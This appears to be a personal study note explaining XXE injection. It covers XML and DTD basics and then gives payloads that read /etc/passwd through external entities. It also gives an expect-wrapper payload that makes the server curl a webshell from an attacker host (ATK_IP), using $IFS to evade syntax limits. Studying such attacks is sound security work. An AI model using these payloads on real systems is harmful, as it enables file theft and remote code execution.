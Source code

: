 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
XXE injection is when a user can submit malicious XML to a web-server backend. Due to the power of XML, this can have devastating consequences from disclosing sensitive files to denial of service; it is considered one of the [Top 10 Web Security Risks](https://owasp.org/www-project-top-ten/).

## XML
*Extensible Markup Language* (*XML*) is a common markup language that is primarily for storing data and representing structures. It is not particularly designed for displaying the data itself. XML is made up of several types of components:
- *Tag* : The keys of the XML document, usually wrapped with `</>` : `<date>`
- *Entity* : An XML variable, usually wrapped with `&`/`;` : `&lt;`
- *Element* : The root element of any of its children, its value is stored in between a pair of tags : `<date>31-10-2025</date>`
- *Attribute* : Optional specifications for any element that are stored in the tags : `<img size=1>`
- *Declaration* : Usually the first line of an XML document, and defines the XML version and encoding to use : `<?xml version="1.0" encoding="UTF-8"?>`
- *Comment* : Readability comments : `<!--` / `-->`

As several characters are using in the syntax, we need to use entities to represent them elsewhere:
- `<` : `&lt;`
- `>` : `&gt;`
- `&` : `&amp;`
- `"` : `&quot;`

An *XML Document Type Definition* (*DTD*) allows for validation of an XML document against a pre-defined document structure:
```xml
<!DOCTYPE email [
	<!ELEMENT email (date, time, sender, recipients, body)>
	<..SNIP..>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```
DTDs can be placed in the file (*usually just under the XML declaration*) but can also be referenced from another URL or external file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://example.com/email.dtd">
```

We can also define custom entities in DTDs, this allows us to reference variables and reduce repetitive data. This uses the `ENTITY` keyword, followed by name and then value
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
	<!ENTITY company "Random Company">
]>
<data>&company;</data>
```
We can include files using this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
	<!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

## LFI Through XXE
First, we need to know if there is anything that gets reflected back to the user. If so, we can use that to inject our malicious XML into and have it reflected back. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<email>
		user@example.com
	</email>
</root>
```
If the email is reflected we could modify the request to:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<root>
	<email>
		&xxe;
	</email>
</root>
```
> We can try with just some text to see if its even possible before trying to read a whole file `<!ENTITY xxe "some text">`
> We can also use things like PHP wrappers to encode files if we need as anything containing XML syntax will break this

## RCE Through XXE
Most commonly we are looking for SSH keys or trying to make the XML call out so we can grab things like NTLM hashes. But we might be able to use methods like PHP's `expect` wrapper to gain RCE. If we host a webshell on our machine, we can call it through XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'ATK_IP/shell.php'"> ]> 
<root>
	<email>
		&xxe;
	</email>
</root>
```
> We need to try to avoid using things that could break the syntax of XML or the code (eg. `$IFS` instead of spaces)
> SSRF may also be possible through XXE